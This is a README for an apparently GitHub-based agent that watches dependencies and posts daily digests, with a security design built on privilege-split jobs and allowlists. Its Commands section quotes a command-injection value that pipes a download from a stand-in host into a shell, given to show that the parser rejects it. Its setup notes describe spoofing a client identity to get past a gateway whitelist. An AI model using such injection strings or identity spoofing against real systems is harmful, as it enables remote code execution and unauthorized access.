

# Git Agent

A git-native agent that watches your dependency stack and narrates a daily digest.

**There is no server, no database, and no front-end build step.** The repository *is* the
instance: state lives in files, history is append-only, and every turn is a fresh job on a
machine that is destroyed when the job ends. It remembers because it reads the repository,
not because a process stayed alive.

<picture>
  <source media="(prefers-color-scheme: dark)" srcset="./assets/hero-dark.svg">
  
</picture>

<picture>
  <source media="(prefers-color-scheme: dark)" srcset="./assets/stats-dark.svg">
  
</picture>

Four zeros and a four, and none of them is a measurement. `dependencies` is empty in
`package.json`; nothing here binds a port; the agent produces a complete digest with no
secret at all; and `digest.yml` is four jobs because **no job may hold both a model key and
a write token**.

**Jump to:** [The digest](#the-digest) · [Set it up](#set-it-up) · [How you talk to it](#how-you-talk-to-it) · [Commands](#commands) · [Where it runs](#where-it-runs) · [What it costs you](#what-it-costs-you)

<picture>
  <source media="(prefers-color-scheme: dark)" srcset="./assets/divider-dark.svg">
  
</picture>

## The digest

This template runs the real pipeline against the seed stack on a schedule and publishes the
result, so you can watch it work before you trust it with anything. The block below is
rewritten in place by the `commit` job — it is the only part of this file a run may touch,
and it is rendered from the decision record rather than from model prose.

<!-- git-agent:begin -->
_No run recorded yet. The first scheduled run fills this in._
<!-- git-agent:end -->

<picture>
  <source media="(prefers-color-scheme: dark)" srcset="./assets/divider-dark.svg">
  
</picture>

## Set it up

Five steps, and none of them is required for the agent to work: a keyless instance produces
a complete digest.

1. **Use this template** — not a fork. A fork of a public repository is public and cannot be
   made private. See [Where it runs](#where-it-runs).

2. **Edit `data/stack.json`.** The packages you want watched, and for each one the symbols
   you import. The file has three jobs: it is the watch list, the argument allowlist
   (`/agent bump <pkg>` accepts only a name that appears here), and — in the three
   `public_*` lists — the publication allowlist. **Anything not listed as public is not
   publishable**, so an instance watching private packages should list only what it is
   willing to publish.

3. **Set the repository variables** (Settings → Secrets and variables → Actions →
   Variables). None is required.

   | Name | Value |
   |---|---|
   | `LLM_BASE_URL` | any chat-completions-compatible root, e.g. `https://host/v1` |
   | `LLM_MODEL` | the model or deployment name |
   | `AGENT_LANG` | reply language, default `en` |
   | `LLM_USER_AGENT` | only when the endpoint gates on client identity — see below |

   Some gateways reject a request *before* they read the key: a relay behind a whitelist of
   known client identities answers anything else with `401 unauthorized client detected`, so
   a valid key is refused and the error names the client rather than the credential. Set
   `LLM_USER_AGENT` to an identity that gateway accepts and the header is sent; leave it
   unset and the request is byte-identical to what it was before.

4. **Optionally set one secret — `LLM_API_KEY`.** Without it the agent still runs: the rules
   tier produces the whole digest and no model is contacted. That is a complete product, not
   a degraded one. Set it and the endpoint refuses — wrong key, revoked key, blocked network
   — and the digest says so, in its gaps section, every run. "No prose" is a complete digest
   when nothing is configured and a broken one when something is, so the two are never left
   looking the same.

5. **Enable the schedule.** `digest.yml` runs daily at 06:17 UTC. Nothing else is required,
   and nothing is enabled by default that executes third-party code.

### Optional: a typed decision layer

`JEV_ENABLED` adds a narrow judgment layer that answers the two questions the rules cannot —
do we import the vulnerable component, and does it reach a trust boundary — one atomic
question at a time, returning typed values rather than prose.

It is off by default, and turning it on couples it to nothing else. The rules tier still
decides everything it can, and narration is still the separate, optional layer above. **The
typed layer needs no chat model, and the chat model needs no typed layer** — a digest with
`JEV_ENABLED=true` and no `LLM_API_KEY` is complete, just without the prose paragraph.

Set `JEV_ENABLED=true`, `JEV_BASE_URL` (the layer's root, including its version prefix — the
endpoint called is `{JEV_BASE_URL}/systemone`), the `JEV_API_KEY` secret, and optionally
`JEV_MODEL` (default `jev-latest`).

## How you talk to it

A message is a comment. A reply is a comment. There is no chat session and nothing to keep
open.

```
  you comment           GitHub fires          a fresh job            the reply
  in the issue   ───▶   a workflow     ───▶   reads the repo  ───▶   lands as a
                                             + the append-only      comment
                                             log
```

Two surfaces, and only two:

| Surface | What it is | Why |
|---|---|---|
| The rolling issue | Native GitHub, works on mobile, sends notifications | The digest lands there as a comment |
| `site/chat.html` | A composer published by Pages | It builds a prefilled issue URL and holds nothing else |

The composer is a **composer, not a client**. It has no key, calls no model, and cannot
trigger a workflow — a static page cannot dispatch one without a token embedded in it, and
that is enforced by GitHub, not by discipline.

## What it does every run

Three jobs on the normal path, split along the privilege boundary rather than the logical
one, plus a fourth that only runs when the first one fails:

| Job | Holds | Does |
|---|---|---|
| `fetch` | `contents: read`, no secret | Reads the world. Writes nothing to the repository. |
| `narrate` | `contents: read`, **the model key** | Triages, and optionally narrates. Output is an artifact, not a commit. |
| `commit` | `contents: write`, **no key** | Runs the containment gate, then commits. |
| `heartbeat` | `contents: write`, **no key** | Runs only if `fetch` failed, so a broken run still moves the liveness signal. |

The gate is in the job that holds no key on purpose. The thing that decides what gets
written is the thing that cannot be hijacked, because it never talks to a model.

The fourth job exists because a scheduled workflow that commits nothing for 60 days has its
schedule disabled by GitHub — so a run that produces nothing still has to leave a mark, or
the failure becomes permanent and silent.

## Commands

| Command | What happens | Model? |
|---|---|---|
| `/agent why <pkg>` | Looks up the stored decision and replies | **No** |
| `/agent what-changed` | Renders what moved since last time | **No** |
| `/agent bump <pkg>` | Opens a pull request; the sandbox runs the suite if enabled | **No** |
| `/agent verify <pr>` | Runs the suite against a patch | **No** |
| `/agent wrong <pkg>` | Records a correction — the calibration corpus | **No** |
| `/agent pause` · `/agent resume` | Toggles the schedule | **No** |
| `/agent explain <id>` | Argues from the decision record | **Yes** |

Seven of the eight verbs never touch a model — `pause` and `resume` are one shape of the
eight. That is why the chat is cheap, fast, and impossible to hallucinate into: the answers
are lookups, not generations.

Anything that is not one of those verbs gets a fixed rejection. The comment body is never
passed to a model as an instruction, and the package name must appear in `data/stack.json` —
so `"; curl evil.sh | sh` simply fails the parse.

## The two visual rules

**Verified is not the same as ungrounded, and they never render the same way.** Every claim
in the digest came from a fetched payload and passed the containment gate. An `/agent
explain` answer is the model reasoning over the record, and it is marked as unverified,
permanently and visibly. If both looked the same, you could not tell which claims were
checked.

**A gap is rendered, not hidden.** A source that failed produces a visible row saying so. A
digest that silently omits a failed source reads as complete, which is worse.

<picture>
  <source media="(prefers-color-scheme: dark)" srcset="./assets/divider-dark.svg">
  
</picture>

## Where it runs

**Three repositories, not one.** This template is public and your instance should not be —
they are different repositories, and the split is the whole security story.

| Repository | Visibility | Holds | Runs |
|---|---|---|---|
| **Template** — this one | public | no secrets; the seed `data/stack.json` | a live demo digest, daily |
| **Your instance** | private | your real stack, your key | your digest, daily |
| **Status** — optional | public | the subset you listed as publishable | a second, redacted digest |

The public template holds no secrets and runs against the seed stack as a live demo. That is
deliberate, and it is the point: the repository anyone can read is the one with nothing to
steal. It watches a handful of widely-used packages and one public feed, and publishes the
result. You can watch it work; you cannot learn anything private from it.

Your instance is a separate private repository, created with **Use this template** — not a
fork. This matters: *you cannot fork a public repository into a private one.* A fork of this
repository is public, inherits its visibility, and is permanently linked to it. "Use this
template" makes a copy with its own history, its own settings, and its own secrets. Set
`LLM_API_KEY` there and nowhere else.

An optional third repository holds the part of your digest you are willing to publish. Build
it only if you want a public status page. It is not a way to make a private instance public;
it is a second instance with a smaller watch list.

What decides what may be published is built, and it fails closed. Three lists in
`data/stack.json` — `public_packages`, `public_upstreams`, `public_feeds` — name the subset
that may reach the public surface, and the default for anything unlisted is *not
publishable*. The projection runs in the `commit` job, which is the one that holds no key;
the public digest is templated rather than narrated, because prose cannot be filtered and is
therefore dropped rather than redacted; and every count on the public surface is derived
*after* the projection, because `packages: 6` beside a page showing two rows states the size
of what was withheld.

Two things worth knowing before you rely on it:

- **The seed stack's own default is "publish everything".** It lists all six packages,
  because this repository is a public demo watching widely-used packages and one public feed.
  An instance watching its own private packages should list only what it is willing to
  publish. An explicit empty list is a valid deny-all rather than an error.
- **The other direction is not built.** There is no `config/private.json`, so nothing stops a
  private package from being *fetched* and sent to the model you configured. Publication is
  closed first because it is the direction with no remedy: a name sent to an endpoint you
  chose can be rotated, a name published cannot be recalled.

What the split buys you:

- **A mistake in the template costs nothing.** Its history is public, so a leak there is
  visible immediately and has nothing to leak.
- **Your instance stays yours.** Its commits are private, so its digest, its watch list and
  its corrections stay private.
- **Neither can reach the other.** They share no history, no secrets and no settings.

The thing to be careful with is not the code — it is `data/stack.json`. That file is your
dependency inventory, and it is the only genuinely sensitive thing the agent stores. It
belongs in the private instance.

### Pages publishes the site, not the repository's visibility

One caveat, and it is the platform's rather than this design's: **a Pages site built from a
private repository is still readable by anyone on the internet.**

- Pages from a **private** repository needs **GitHub Pro / Team / Enterprise**. GitHub Free
  allows Pages from public repositories only.
- A **privately published** (access-controlled) Pages site needs **GitHub Enterprise Cloud**,
  and only for project sites owned by an organisation.

So on Pro/Team — or a personal account — enabling `pages.yml` on your private instance
publishes your digest, and the digest names the packages you watch. `site/index.html` also
prints `packages watched`. It is opt-in for exactly this reason: `pages.yml` fails loudly on
the deploy step when Pages is not enabled, and nothing else is affected. **If your stack must
stay private, do not enable it.**

### If you would rather run only one repository

Instantiate the template privately and skip the demo. The template is then just the thing
you read. Nothing breaks: no workflow here depends on this repository existing.

## What it costs you

**You get:** a permanent, auditable transcript you can search six months later; a change
history that records transitions rather than clock ticks; and a decision record per advisory
— the probability vector, the threshold, and the model version — because you cannot replay a
model call but you can replay a decision.

**You give up:** sub-minute back-and-forth, and any interactive shell. A reply takes as long
as a job takes to start, which is a minute, not a second.

<picture>
  <source media="(prefers-color-scheme: dark)" srcset="./assets/divider-dark.svg">
  
</picture>

## Layout

```
.github/workflows/   digest (4 jobs) · ask (3 jobs) · act · sandbox · pages · ci
lib/                 llm · probe · commands · sandbox · triage
                     plus internals: store · version · gate · sources · render ·
                     invariants · pubsafe · github
                     and the publication pair: public-surface · publishable
scripts/             one entry point per job
data/                state — all behind the change gate except heartbeat.json
history/             append-only: events · commands · runs (hash-chained)
digest/              dated archive
assets/              the artwork above — hand-built SVG, no external requests
site/                index.html (digest view) · chat.html (composer)
tools/               the invariant checks, as a CLI
AGENTS.md            the rules — every one of them enforced by a check
SECURITY.md          what is in scope for a report, and what is not
README.md            regenerated between markers
```

## Local development

```bash
npm test                     # unit tests, no network
npm run check                # the invariants, over the workflows on disk
npm run probe                # measure the configured endpoint, once, on request
node scripts/fetch-step.mjs  # dry run; writes .run/payload.json, nothing else
npm run site                 # regenerate site/ from the committed state
```

`fetch` and `narrate` are read-only and safe to run locally. `commit` writes — run it only
in CI unless you know why you are running it.

## The rules this repository is built on

`AGENTS.md` states them, and each is enforced by a check in `ci.yml` or it is not a rule at
all — a preference is a rule that erodes. The short version:

- **One privilege per job.** No component holds both a secret and a write token.
- **The gate decides.** Every entity in generated prose — advisory id, package name, version
  literal, numeric token — must appear in the fetched payload, and the gate runs only where
  no model key exists.
- **The public surface is projected, not filtered.** The allowlist lives in `data/stack.json`
  and the projection runs in the keyless `commit` job, *after* the gate. Unlisted means not
  publishable, and every count is derived after the projection — because `packages: 6` beside
  a page showing two rows states the size of what was withheld.
- **Bounded writes, fail-closed.** The writer refuses anything outside its allowlist, and CI
  re-checks the actual diff before the commit.
- **Everything is behind the change gate except one file** — `data/heartbeat.json`, so a
  broken agent keeps committing instead of going silent and losing its schedule.
- **Append-only history, hash-chained.** Narration is excluded: prose is generated content,
  not a fact about the world.
- **The sandbox never receives a secret**, and ships off by default.
- **The web surface holds no key and calls no model.** The composer builds a prefilled issue
  URL and holds nothing else.
- **No provider names in the code.** The agent has no opinion about your endpoint.
- **The documented configuration surface is the whole configuration surface.** Every variable
  a workflow asks for is in the table above, and every variable the code reads is delivered by
  a workflow. Both halves are checked, because both had already drifted.
- **The typed layer decides with a band, read per answer.** A value near the middle is *no
  signal* rather than medium intensity, so an answer inside the band, an absent answer, and an
  answer that will not parse all escalate to a human rather than resolving.
- **Commands are parsed, never interpreted.** An allowlisted verb, an argument that must
  appear in the watch list, and an author gate that exits rather than warns.
- **Third-party actions are pinned to a commit, not a tag.** A tag is a mutable pointer, and
  whoever can move it controls code running with your write token.
- **Honest about time.** A digest is stamped with the observation time, never with the
  schedule. "As of 06:12 UTC" is honest; "today's briefing" is a small lie that will
  eventually be caught.
